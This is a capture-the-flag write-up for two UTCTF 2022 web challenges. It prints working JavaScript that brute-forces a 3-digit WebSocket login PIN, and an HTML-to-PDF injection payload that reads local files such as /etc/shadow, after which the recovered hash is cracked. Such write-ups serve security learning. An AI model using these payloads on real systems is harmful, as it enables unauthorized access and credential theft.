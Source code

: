 # UTCTF 2022 - Web 
## 1- Websockets? 
<center><img src="../images/websockets_chall.png"></img></center>
#### about : 
- Type: Web 
- Level: easy 
- Website : http://web1.utctf.live:8651
</br>

in login page **/internale/login** i found theis code js for login : 
```js
document.querySelector("input[type=submit]").addEventListener("click", checkPassword);

function checkPassword(evt) {
	evt.preventDefault();
	const socket = new WebSocket("ws://" + window.location.host + "/internal/ws")
	socket.addEventListener('message', (event) => {
		if (event.data == "begin") {
			socket.send("begin");
			socket.send("user " + document.querySelector("input[name=username]").value)
			socket.send("pass " + document.querySelector("input[name=password]").value)
		} else if (event.data == "baduser") {
			document.querySelector(".error").innerHTML = "Unknown user";
			socket.close()
		} else if (event.data == "badpass") {
			document.querySelector(".error").innerHTML = "Incorrect PIN";
			socket.close()
		} else if (event.data.startsWith("session ")) {
			document.cookie = "flask-session=" + event.data.replace("session ", "") + ";";
			socket.send("goodbye")
			socket.close()
			window.location = "/internal/user";
		} else {
			document.querySelector(".error").innerHTML = "Unknown error";
			socket.close()
		} 
	})
}
```
and a comment in the source code 
```html
<!-- what is this garbage, you ask? Well, most of our pins are now 16 digits, but we still have some old 3-digit pins left because tom is a moron and can't remember jack -->
```
so i tried a bruteforce on 3 digits in the user admin : 
here is the code (same code just tweaks on console)
```js
function get_pwd(){
    for (let i = 0 ; i < 10  ; i++) {
    for (let j = 0 ; j < 10  ; j++) {
    for (let k = 0 ; k < 10  ; k++) {
    const socket = new WebSocket("ws://" + "web1.utctf.live:8651" + "/internal/ws")
    socket.addEventListener('message', (event) => {
        let pss = i.toString() + k.toString() + j.toString();
        if (event.data == "begin") {
            socket.send("begin");
            socket.send("user " + "admin")
            socket.send("pass " + pss);
        } else if (event.data == "baduser") {
            console.log("Bad user : " + "admin")
            socket.close()
        } else if (event.data == "badpass") {
            console.log("Trying : " + pss);
            socket.close()
        } else if (event.data.startsWith("session ")) {
            console.log("found : " + pss);
            return  True;
        } else {
            console.log("Some error")
            socket.close()
        } 
    })
}}}
}
```
result : 
found : **907** 
so i loged in and got the flag : **utflag{w3bsock3ts}**

## 2- HTML2PDF
<center><img src="../images/html2pdf_chall.png"></img></center>
#### about : 
- Type: Web 
- Level: meduim 
- Website : http://web2.utctf.live:9854

The page gets inputs and convert it from HTML to PDF
<center><img src="../images/html2pdf_page.png"></img></center>

so i need to get local file inclusion inside the html so it can return it after the pdf is created i tried : 
```html
<h1 id='test2'>a</h1>
<script>x = new XMLHttpRequest();
x.open('GET','file:///etc/etc',false);
x.send();
document.getElementById('test2').innerHTML= x.responseText;
</script>
```
basically what this do is fetch the file (internal) using javascript XMLHttpRequest class to get contenu before convert the page to pdf 

it worked. so now we have a basic LFI , so i chacked what privileges do i have , so i tried **/etc/shadow** and it worked , Nice 

<center><img src="../images/html2pdf_shadow.png"></img></center>

So , that WeakPasswordAdmin reveals itself , let's bruteforce with hashcat , i got 

```
$1$Rj9G/TPc$e5k/QAhlagK6pxGyfQNJ5.:sunshine
```
i loged in and got the flag : **utflag{b1g_r3d_t3am_m0v35_0ut_h3r3}**